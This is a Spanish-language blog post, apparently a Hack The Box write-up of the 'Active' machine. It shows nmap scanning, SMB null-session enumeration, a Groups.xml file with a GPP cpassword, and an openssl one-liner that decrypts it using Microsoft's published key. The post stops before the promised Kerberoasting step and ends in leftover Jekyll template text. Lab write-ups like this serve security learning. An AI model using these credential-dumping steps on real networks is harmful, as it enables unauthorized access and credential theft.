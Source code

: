 ```yaml
---
title: "Active HTB WriteUp"
layout: post
---
```

![Ative HTB](/assets/images/Active.png)


<h2>Presentación</h2>
Active es una excelente máquina para poner en práctica lo aprendido en Haking Active Directory del curso de TCM Security. Además de realizar enumeraciones a servicios a través del uso de Null sessions, la enumeración de servicios de puertos y servicios como 445/SMB, nos llevó a obtener credenciales y ejecutar un Kerberoasting attack.

<h2>Reconocimiento</h2>
En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.10.100 -oGallports
{% endhighlight %}

**Output** Ports: 53/open/tcp//domain/, 88/open/tcp//kerberos-sec/, 135/open/tcp//msrpc, 139/open/tcp//netbios-ssn, 389/open/tcp//ldap/, 445/open/tcp//microsoft-ds/, 464/open/tcp//kpasswd5/, 593/open/tcp//

<h2>Puertos y Servicios</h2>

{% highlight bash %}
nmap -p53,88,135,139,445,464,593,636,3268,3269,5722,9389 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

![Ative HTB](/assets/images/services.png)

<h2> SMB smbmap % smbclient </h2>
A través de smbclient nos conectamos al directorio que tenemos acceso de lectura como nos indicó el comando, en este caso el directorio \Replication:
{% highlight bash %}
smbmap -H 10.10.10.100
{% endhighlight %}

Luego con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}

![Ative HTB](/assets/images/smbclient.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente link de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato cpassword, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 {% endhighlight %}

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].


[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
[jekyll-docs]: http://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
